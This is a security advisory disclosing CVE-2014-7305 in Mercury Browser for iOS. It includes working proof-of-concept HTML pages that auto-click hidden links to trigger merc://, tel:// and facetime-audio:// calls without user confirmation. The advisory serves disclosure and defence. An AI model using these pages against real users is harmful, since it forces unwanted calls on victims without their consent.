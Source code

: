 ## CVE-2014-7305 


|Title          |Issue with Facetime and Facetime-Audio URL Schemes on Mercury Browser|
----------------------- | --- |
|**Affected Vendor:** |RichText Web Site |
|**Affected Software:** | Mercury Browser and Mercury Browser Pro |
|**Affected Version:** | All known versions on iOS |
|**Issue Type:** | Lack of user confirmation leading to Telephone and Facetime Audio calls being arbitrarily initialized by an attacker.|
|**Release Date:** | October 13, 2014 |
|**Discovered by:** | Matias P. Brutti - @S9Labs |
|**CVE Identifier:** | CVE-2014-7305 |
|**Issue Status:** | No response provided as of 10/13/2014. Still vulnerable. |


##### Description

Using the same technique deployed by Andrei Neculaesei ( link:  http://algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc) to bypass some iOS applications including G+, Facebook, Hangouts, among others to launch phone calls automatically without permission.  By looking for a way to also exploit this directly on Messages which according to the author of the other vulnerabilities was not possible, we found that it was possible to attack people by jumping from the default Safary browser WebView using browsers url handlers. 

We found that Mercury Browser had a known merc:// URL handler which might helps us make the jump from Messages to a vulnerable browser for exploitation. Mercury Browser and Mercury Browser Pro are vulnerable to two attacks including making arbitrary telephone calls and arbitrary FaceTime audio calls.  The only one that was not automatically working was initializing a FaceTime call, which is correctly prompting users. 

Both browsers are vulnerable because the developer while writing the code did not correctly handle **webView:shouldStartLoadWithRequest:navigationType:** to prompt users before initializing the calls. 

##### Proof of Concept

For example if using Messages, An attcker could easily send a link friendly link to a malicious or compromised website (i.e http://evilrovot.com/merc.html). Knowing that Safari will *not* open tel:// directly and it will pop-up a message, a two step approach is needed using the merc:// URL handler to open a new mercury window on a new page which will trigger the vulnerability on http://evilrovot.com/tel.html. 

[ APP RECEIVING LINK ] --> [ SAFARI ] --> [ MERCURY BROWSER ] --> [ TEL ] 

Code for this files is as follow:

merc.html
```html
<html>
<body>
<a id="callme" href="merc://evilrovot.com/tel.html" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```

tel.html
```html
<html>
<body>
<a id="callme" href="tel://+0000" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```

ft_audio.html
```html
<html>
<body>
<a id="callme" href="facetime-audio://+0000" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```
##### Recommendations
The ideal behavior should be that it triggers a pop-up asking the user wether he/she wants to start a Tel or FaceTime-Audio conversation with the number in question.

##### Timeline
```
9/22 — Tried to Contact Vendor through their Contact Us page on https://mercury-browser.com/contact.html by failed
9/22 — Try to contact through Twitter but no response provided 
9/28 — Sent again using Contact Us page on main Company page - http://www.ilegendsoft.com/. 
10/13 — No response provided to date.
10/13 — Vulnerability made public. 
```

##### Full Write-Up
[https://medium.com/section-9-lab/paid-apps-do-come-with-a-price-bc0533a94ff9](https://medium.com/section-9-lab/paid-apps-do-come-with-a-price-bc0533a94ff9)
